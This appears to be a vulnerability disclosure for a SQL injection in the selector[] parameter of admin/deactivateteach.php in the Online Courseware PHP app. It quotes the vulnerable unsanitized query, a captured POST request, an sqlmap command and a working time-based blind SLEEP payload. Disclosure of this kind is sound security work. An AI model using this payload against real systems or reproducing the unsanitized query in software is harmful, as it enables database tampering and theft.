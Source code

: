 #### BUG_AUTHOR:LIU WEIYU
## Online Courseware - SQL Injection on (admin/deactivateteach.php selector[] parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/4818/online-courseware-using-phpmysql.html 
Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
admin/deactivateteach.php 
On this page, selector[] parameter is vulnerable to SQL Injection Attack 
### Source code(pcci/admin/deactivateteach.php):
```
$edittable=$_POST['selector'];
$N = count($edittable);
for($i=0; $i < $N; $i++)
{
	$result = mysqli_query($conn,"UPDATE teacher SET mem_status='inactive' where id='$edittable[$i]'");
}
```
### Proof of vulnerability(Verify using the sqlmap tool after logining ):
#### Request:
```
POST /onlinecourseware/pcci/admin/deactivateteach.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 129
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=sm0bljsdrcd3r9gqelkfs2sf73
Origin: http://localhost
Referer: http://localhost/onlinecourseware/pcci/admin/teacher.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

bnm=deactivate&selector%5B%5D=1
```
#### -> sqlmap -r 1.txt (above request package) --batch
### Output:
```
---
Parameter: selector[] (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: bnm=deactivate&selector[]=1' AND (SELECT 1991 FROM (SELECT(SLEEP(5)))fAZx)-- HKIG
---
```
